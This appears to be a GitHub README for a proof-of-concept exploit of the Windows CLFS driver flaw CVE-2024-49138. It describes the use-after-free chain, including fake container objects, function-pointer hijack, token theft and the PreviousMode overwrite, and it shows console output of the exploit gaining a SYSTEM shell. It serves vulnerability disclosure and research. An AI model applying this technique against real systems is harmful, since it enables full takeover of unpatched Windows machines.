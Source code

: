 # CVE-2024-49138

**Title:** Windows Common Log File System Driver Elevation of Privilege Vulnerability  
**CVE-2024-49138:** https://msrc.microsoft.com/update-guide/vulnerability/CVE-2024-49138  
**Vulnerability Type:** Heap-based Buffer Overflow  
**Tested On:** clfs.sys - 10.0.22621.4391  

## Description

CVE-2024-49138 is a privilege escalation vulnerability in the Windows Common Log File System (CLFS) driver (`clfs.sys`). The flaw exists in the handling of metadata blocks during log file operations. Specifically, when writing a general metadata block, the system encodes sector signatures using `ClfsEncodeBlock()` and subsequently verifies them with `ClfsDecodeBlock()`. By carefully crafting a malicious log container, an attacker can cause the signature array to overlap with sector footers and manipulate the update sequence number (`USN`), leading to signature mismatch. This causes `ClfsDecodeBlock()` to fail, triggering `ReleaseMetadataBlock()` to free the associated memory. However, higher-level logic assumes the metadata block is still valid, resulting in a use-after-free. By creating a controlled object in userland at a predictable address, the attacker can hijack a function pointer call, redirecting execution to a kernel gadget that performs an arbitrary memory write, ultimately achieving SYSTEM-level privileges.

## Exploit

Tested on: Windows 11 22H2 (11-2024 Build)

```
PS C:\Users\h4x\Desktop> .\CVE-2024-49138.exe .\mylogdddd.blf.blf
[+] Successfully created C:\temp\testlog directory!
[+] Log file path: LOG:C:\temp\testlog\mylogdddd.blf
[+] Successfully created the log file!
[+] Container file path: C:\temp\testlog\container1
[+] Successfully created the container!
[+] Successfully overwritten the legitimate BLF file with malicious BLF file
[+] NT base address fffff8023a000000
[+] Found EPROCESS of the current process FFFFAD0885E870C0
[+] Found EPROCESS of the system.exe FFFFAD08800B5040
[+] Found KTHREAD of the current thread FFFFAD088461A080
[+] Fake CClfsContainer = 0x2100000
[+] CreateLogFile failed with error 6601, this is good!
[+] Stealing system's Token..
[+] Replacing KTHREAD.PreviousMode as UserMode..
[+] Spawning shell as SYSTEM...
Microsoft Windows [Version 10.0.22631.4460]
(c) Microsoft Corporation. All rights reserved.

C:\Users\h4x\Desktop>whoami
nt authority\system
```

## Acknowledgements

- It was explained by Alessandro Iandoli and can be found [here](https://security.humanativaspa.it/cve-2024-49138-windows-clfs-heap-based-buffer-overflow-analysis-part-1/).
- The [PoC](https://github.com/MrAle98/CVE-2024-49138-POC) was developed by Alessandro Iandoli, and the above PoC is based on it.
